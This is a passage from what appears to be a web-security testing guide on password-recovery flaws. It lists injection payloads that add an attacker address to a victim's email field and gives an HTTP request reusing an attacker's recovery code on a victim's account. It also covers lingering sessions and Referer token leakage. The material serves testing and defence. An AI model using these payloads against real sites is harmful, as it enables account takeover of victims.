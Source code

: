 an application sends the same recovery link to two email addresses.

You can also try the following payloads:

```http
victim@website.com&attacker@website.com
victim@website.com,attacker@website.com
victim@website.com|attacker@website.com
victim@website.com%20attacker@website.com
victim@website.com%09attacker@website.com
victim@website.com%0a%0dcc:attacker@website.com
...
```

References:

- [Writeup: Readme.com Account Takeover #BugBounty #FullDisclosure #Fixed](https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be)

## Lack of link between account and code

Try to request an one-time token for your account and use them to recover a victim's account:

```http
POST /users/password/recovery HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/json
Content-Length: 72

{"email": "victim@website.com","code": "<code-for-an-attacker-account>"}
```

## Password recovery does not end previously created sessions

{% hint style="info" %}
This is the best practice to follow
{% endhint %}

Successful password recovery should end previously created sessions. If this does not happen, an victim will not have mechanisms for managing the security of their account. As a result, an attacker will be able to maintain an active session for an extended period of time.

## Token leakage via Referer header

The [Referer](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer) HTTP request header contains an absolute or partial address of the page that makes the request. The `Referer` header allows a server to identify a page where people are visiting it from. This data is used for analytics, logging, optimized caching, and more.

The Referer header can contain an `origin`, `path`, and `querystring`, and may not contain URL fragments (i.e. `#section`) or `username:password` information. The request's referrer policy defines the data that can be included, see [Referrer-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy).
